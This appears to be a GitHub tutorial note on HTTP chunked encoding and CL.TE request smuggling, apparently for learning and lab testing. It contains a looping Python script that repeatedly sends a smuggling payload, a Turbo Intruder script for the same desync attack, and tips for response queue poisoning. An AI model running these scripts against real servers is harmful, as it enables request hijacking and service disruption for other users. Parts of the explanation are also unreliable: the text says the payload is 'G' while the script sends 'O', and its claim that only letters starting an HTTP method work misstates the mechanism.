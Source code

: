 A **chunked data request** usually refers to sending or receiving data in smaller parts (chunks), often used in streaming or when you don’t know the total size up front.

Here’s an example using **HTTP chunked transfer encoding** in a raw HTTP request:

---

### Example: HTTP Chunked Data Request

```
POST /upload HTTP/1.1
Host: example.com
Transfer-Encoding: chunked
Content-Type: application/json

4
Wiki
5
pedia
E
 in
chunks.
0

```

![chunkexample](https://github.com/user-attachments/assets/73e99609-5a25-4e4d-b575-f6cd8e99e835)





✅ **Explanation:**

* `Transfer-Encoding: chunked` tells the server we are sending the body in parts.
* Each chunk starts with its **length in hexadecimal**, followed by the chunk data.
* The final chunk is `0`, signaling the end.

---


### 🧩 **Use python to test for CLTE for the site as shown by sending raw TCP**

import requests
import time

url = "http://localhost"
headers = {
    "Host": "localhost",
    "Content-Length": "100000",
    "Transfer-Encoding": "chunked",
    "Connection": "keep-alive"
}
payload = "0\r\n\r\nO"

while True:
    try:
        response = requests.post(url, headers=headers, data=payload)
        print(f"Sent - Status: {response.status_code}, Length: {len(response.content)}")
        time.sleep(.5)  # Adjust delay as needed
    except KeyboardInterrupt:
        print("\nStopping attack...")
        break
    except Exception as e:
        print(f"Error: {str(e)}")
        time.sleep(1)

---

### 🧩 **What’s happening?**

In your script, the payload is:

```
0\r\n\r\nG
```

Let’s break that down:

* `0\r\n\r\n` → signals **end of chunked transfer body**.
* `G` → **extra data after the end**.

Normally, the server would process:

1. Read chunked body (`0\r\n\r\n` means: body done).
2. Anything **after** that (`G`) may or may not be interpreted as part of the next request, depending on how the server’s HTTP parser works.

This “extra” `G` becomes critical **only if**:
✅ The server keeps the connection open (`Connection: keep-alive`).
✅ The server doesn’t strictly discard extra input after the body.
✅ The parser treats that `G` as part of a pipelined or next request.

---

### ⚠ **Why does the letter matter?**

The reason **only certain letters like `G` work** is because the HTTP parser interprets the next incoming data **as the start of a new request**.

In HTTP/1.1, a request line looks like:

```
<method> <path> HTTP/1.1
```

Common methods are:

* **GET**
* **POST**
* **HEAD**
* **OPTIONS**
* **PUT**
* **DELETE**

Notice the first character:

* `G` → likely triggers `GET` parsing.
* `P` → might start `POST` or `PUT`.
* `H` → might start `HEAD`.
* Random letters like `X`, `Y`, `Z` → **don’t match any HTTP verb** → cause the server to ignore or close the connection.

So, **only when the leftover data starts with a valid HTTP method letter** does the server *continue interpreting* it as part of a new request — leading to:
✅ request smuggling,
✅ request-response desynchronization,
✅ potential response poisoning.

---

### 🔍 **What if you remove the `G` or change it?**

If you change the trailing `G` to something like:

* `X` → not a valid HTTP method → the server drops or errors.
* `GET` → now you have a *full* new request starting, making the attack more aggressive.
* No letter → nothing extra sent, no confusion.

---

### 🛡 **Why is this dangerous?**

This pattern is related to **HTTP request smuggling**, a class of attacks exploiting inconsistencies between how front-end (e.g., proxy, CDN) and back-end (e.g., app server) parse requests.

Here, you manually craft a payload that leaves the connection in a poisoned state, letting you:

* Inject new requests.
* Hijack other users’ responses.
* Cause backend desynchronization.

The trailing `G` **isn’t magic** by itself — it just happens to fit the parser expectations and slip past defensive checks.

---

### 📦 Summary

✅ **The `G` matters because the server tries to interpret it as the start of a new HTTP request (like `GET`).**
✅ Without a valid method letter, the server wouldn’t parse the next part as a new request.
✅ This behavior depends on the server’s and intermediary’s HTTP parser implementation.

---

How to load and run a script in **Turbo Intruder** in **Burp Suite** to simulate your Python desync attack.

---

### ✅ **Step-by-step: Load a Turbo Intruder script**

#### 1. **Install Turbo Intruder**

* Go to **Burp Suite** → **Extensions** tab.
* Click **“BApp Store”**.
* Find **Turbo Intruder**.
* Click **Install**.

#### 2. **Send a request to Turbo Intruder**

* In **Burp Repeater**, craft a basic POST request to your target (e.g., `POST / HTTP/1.1 ...`).
* Right-click on the request.
* Choose: **“Send to Turbo Intruder”**.

#### 3. **Load a custom script**

* Turbo Intruder opens in a new tab with a default script.
* Delete the default code and **paste this custom script**:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           pipeline=False,
                           timeout=10)

    # Raw HTTP request
    req = '''POST / HTTP/1.1
Host: localhost
Content-Length: 100000
Transfer-Encoding: chunked
Connection: keep-alive

0

G'''  # You can change G to O or other characters

    engine.queue(req)

def handleResponse(req, interesting):
    print(f"Status: {req.response.status}, Length: {len(req.response.body)}")
```

#### 4. **Modify the target if needed**

* Make sure the `Host: ...` header and path (`/`) match your server.
* You can use `target.replaceIn` if you want to inject values from wordlists, but for raw attacks like this, hardcoding is fine.

#### 5. **Run the script**

* Click **“Run”** (top-left of the Turbo Intruder tab).
* Watch the **console output** for responses and status codes.

---

### 🧪 **Tips for Testing Desync**

* Vary the trailing letter: `G`, `O`, `P`, `GET`, etc.
* Try adding a second **full HTTP request** after the `0\r\n\r\n` to simulate smuggling.
* Use `pipeline=True` in `RequestEngine` if you're testing response queue poisoning.

---

### 🔒 **Reminder: Use responsibly**

Turbo Intruder is extremely powerful — it can crash or poison servers. Only test on systems you own or have explicit permission to test.

---


